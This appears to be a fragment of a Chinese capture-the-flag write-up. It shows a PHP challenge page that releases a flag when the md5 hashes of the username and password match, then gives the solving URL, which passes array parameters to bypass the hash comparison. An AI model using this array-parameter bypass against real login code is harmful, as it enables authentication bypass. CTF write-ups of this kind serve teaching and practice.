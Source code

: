 访问

```
http://159.75.236.232:8085/
```

得到

```
no no no! <?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
if (isset($_GET['username']) and isset($_GET['password'])) {
if ($_GET['username'] == $_GET['password'])
print '用户名与密码不能相同';
else if (md5($_GET['username']) === md5($_GET['password']))
die('Flag: '.$flag);
else
print '密码错误';
}

```

```
http://159.75.236.232:8085/?username[]=1&password[]=2
```

![image-20250801115436839](images/image-20250801115436839.png)
